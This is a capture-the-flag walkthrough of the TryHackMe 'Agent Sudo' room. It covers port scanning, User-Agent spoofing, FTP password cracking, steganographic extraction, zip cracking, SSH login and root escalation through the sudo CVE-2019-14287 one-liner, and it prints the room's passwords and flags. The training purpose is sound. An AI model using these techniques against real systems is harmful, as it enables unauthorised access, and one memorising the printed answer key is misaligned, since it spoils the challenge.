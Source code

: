 # Agent Sudo

> Platform: TryHackMe
>
> Created by: DesKel
>
> Difficulty: Easy

## Reconnaisance & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA agentsudo
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

<details>
<summary><b>Question: How many open ports?</b></summary>
<b>Answer: 3</b>
</details><br>

Based on the page, it says that we need to **change the user-agent** with our **codename** to access the site.

<details>
<summary><b>Question: How you redirect yourself to a secret page?</b></summary>
<b>Answer: user-agent</b>
</details><br>

For this, I just try to **edit and resend** the request from the **Firefox Developer Tools**. In the **Network tab**, we need to **change the User-Agent** with **alphabets from A-Z** as the page already given us hint, which the **agent codename is in alphabets**.

![img](agentc.png)

<details>
<summary><b>Question: What is the agent name?</b></summary>
<b>Answer: chris</b>
</details><br>

Then, it says that the agent that we found have weak password. I try to **crack the password** of the agent for the **FTP server**.

![img](hydra.png)

<details>
<summary><b>Question: FTP password</b></summary>
<b>Answer: crystal</b>
</details><br>

Then, we know that there is FTP Server which can be connect to with username and password retrieved. Then, try to retrieve the files by using the **"get"** command:
```bash
$ ftp ftp@<TARGET-IP>

ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.


ftp> get To_agentJ.txt

ftp> get cute-alien.jpg

ftp> get cutie.png
```

![img](getfiles.png)

So now, let's try to read the files in our terminal.

![img](readfiles.png)

Based on the .txt file, we need to try use our steganography skills to get the password. First, try to use binwalk for the picture.
```bash
$ binwalk cutie.png
```

![img](binwalk.png)

There's the other .txt file that we need to recover. To extract the Zip file, we need to use binwalk with -e which will extract the file inside the picture.
```bash
$ binwalk -e cutie.png
```

![img](binwalke.png)

Now, let's try check the extracted information. There will be our .zip file located in the newly created directory. However, we need to have a password to access the .zip file. For this, I use zip2john to crack it.
```bash
$ zip2john 8702.zip > zip.hash

$ john zip.hash
alien
```

<details>
<summary><b>Question: Zip file password</b></summary>
<b>Answer: alien</b>
</details><br>

Let's try to extract the .zip file using the password that we have cracked and read the .txt file.
```bash
$ 7z x 8702.zip

$ cat To_agentR.txt 
```

![img](agentr.png)

From the .txt file, I suspect it is a base64 encoded word. Try to decode it:
```bash
$ echo "QXJlYTUx" | base64 --decode
Area51
```

<details>
<summary><b>Question: steg password</b></summary>
<b>Answer: Area51</b>
</details><br>

From the question that we recently answered, I suspect that we might need to use steghide to the other picture using the password we just retrieved.
```bash
$ steghide info cute-alien.jpg
```

![img](steghide.png)

Yeah, it is confirmed that we need to retrieved the message.txt file from it. To retrieve it just use "extract" with "sf" following the filename at the end and read the message.txt:
```bash
$ steghide extract sf cute-alien.jpg

$ cat message.txt
```

![img](message.png)

<details>
<summary><b>Question: Who is the other agent (in full name)?</b></summary>
<b>Answer: james</b>
</details><br>

<details>
<summary><b>Question: SSH password</b></summary>
<b>Answer: hackerrules!</b>
</details><br>

## Exploitation

Now we got the password already, we can just use it to SSH to the server and get the user flag.
```bash
$ ssh <username>@<TARGET-IP>
```

![img](userflag.png)

Nice, now we cat get the user.txt:
```bash
$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

## 🏳️Flag: user_flag.txt
>**b03d975e8c92a7c04146cfa7a5a313c7**

Next, we need to know the incident of the image in the server. Firstly, from our device, we need to retrieve the picture from the server first:
```bash
$ scp <username>@<TARGET-IP>:Alien_autopsy.jpg /PATH/TO/YOUR/DIRECTORY
```

From the image retrieved, we need to reverse search the image. I use the Google Image search by image upload feature.

<details>
<summary><b>Question: What is the incident of the photo called?</b></summary>
<b>Answer: Roswell alien autopsy</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to get to root.

First we try to check with the sudo permission first:
```bash
$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Now, we need to find how can we exploit this. Based on the questions, it says that it has a CVE on it. Let's find the CVE.

<details>
<summary><b>Question: CVE number for the escalation 

(Format: CVE-xxxx-xxxx)</b></summary>
<b>Answer: CVE-2019-14287</b>
</details><br>

Then, let's search from exploit-db for the [CVE PoC](https://www.exploit-db.com/exploits/47502).

```bash
$ sudo -u#-1 /bin/bash

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**b53a02f55b57d4439e3341834d70c062**

<details>
<summary><b>Question: (Bonus) Who is Agent R?</b></summary>
<b>Answer: DesKel</b>
</details><br>